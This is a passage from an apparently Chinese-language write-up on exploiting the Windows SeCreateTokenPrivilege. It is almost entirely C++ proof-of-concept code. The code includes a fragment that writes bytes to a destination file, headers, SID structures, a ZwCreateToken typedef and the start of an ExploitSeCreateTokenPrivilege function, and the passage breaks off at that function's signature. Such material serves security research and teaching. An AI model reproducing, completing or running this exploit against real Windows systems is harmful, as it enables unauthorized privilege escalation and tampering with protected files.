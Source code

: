```c++
        }
        printf("[*] Bytes written to %ws: %d\n", destFile, dwBytesWrite);
        status = TRUE;
    }
}
```

最终完整的 POC 代码如下：

```c++
#include <Windows.h>
#include <winternl.h>
#define _NTDEF_ 
#include <NTSecAPI.h>
#include <iostream>
#include <stdio.h>
#include <stdlib.h>
#include <sddl.h>
#include <lmaccess.h>

#pragma comment(lib, "Secur32.lib")
#pragma comment(lib, "Netapi32.lib")

#if !defined(NT_SUCCESS)
#define NT_SUCCESS(Status) ((NTSTATUS)(Status) >= 0)
#endif

#define SIZE 200000
#define STATUS_SUCCESS           0

typedef struct _SID_BUILTIN
{
    UCHAR Revision;
    UCHAR SubAuthorityCount;
    SID_IDENTIFIER_AUTHORITY IdentifierAuthority;
    ULONG SubAuthority[2];
} SID_BUILTIN, * PSID_BUILTIN;

typedef struct _SID_INTEGRITY
{
    UCHAR Revision;
    UCHAR SubAuthorityCount;
    SID_IDENTIFIER_AUTHORITY IdentifierAuthority;
    ULONG SubAuthority[1];

} SID_INTEGRITY, * PSID_INTEGRITY;

typedef NTSYSAPI NTSTATUS(NTAPI* _ZwCreateToken)(
    OUT PHANDLE TokenHandle,
    IN ACCESS_MASK DesiredAccess,
    IN POBJECT_ATTRIBUTES ObjectAttributes,
    IN TOKEN_TYPE Type,
    IN PLUID AuthenticationId,
    IN PLARGE_INTEGER ExpirationTime,
    IN PTOKEN_USER User,
    IN PTOKEN_GROUPS Groups,
    IN PTOKEN_PRIVILEGES Privileges,
    IN PTOKEN_OWNER Owner,
    IN PTOKEN_PRIMARY_GROUP PrimaryGroup,
    IN PTOKEN_DEFAULT_DACL DefaultDacl,
    IN PTOKEN_SOURCE Source
);

BOOL ExploitSeCreateTokenPrivilege(LPCWSTR sourceFile, LPCWSTR destFile)
```